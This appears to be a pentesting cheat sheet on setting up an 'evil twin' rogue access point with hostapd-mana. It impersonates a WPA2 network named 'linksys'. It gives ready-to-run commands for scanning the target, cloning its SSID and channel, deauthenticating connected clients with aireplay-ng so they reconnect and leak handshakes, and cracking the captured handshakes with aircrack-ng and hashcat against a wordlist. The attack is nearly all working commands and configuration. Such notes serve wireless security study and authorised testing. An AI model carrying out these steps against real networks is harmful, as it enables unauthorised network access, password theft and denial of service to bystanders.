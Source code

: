 ## Rogue Access Point

```text
sudo apt install hostapd-mana
sudo apt-get install libssl-dev
```

### Note - A network card with interface modes "AP mode" is requred or the config will fail
```text
iw list | grep "Supported interface modes" -A 8

        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```
We need to specify the band to 2.4 GHz by setting the hw_mode parameter to the letter "g". If the network was running on 5 GHz, we would set hw_mode to "a".

We will set the wpa parameter to the integer "3" to enable both WPA and WPA2 (setting this parameter to "1" enables only WPA and setting the value to "2" enables only WPA2).


#### Start Access Point
```text

sudo systemctl disable dnsmasq && sudo systemctl disable hostapd
sudo rfkill unblock wifi
sudo rfkill unblock all
sudo airmon-ng check kill
sudo ip link set dev wlan0 up
sudo ifconfig wlan0 up
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output.

##### De-Auth if needed
sudo aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon


#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```text



https://wiki.gentoo.org/wiki/Hostapd

https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/




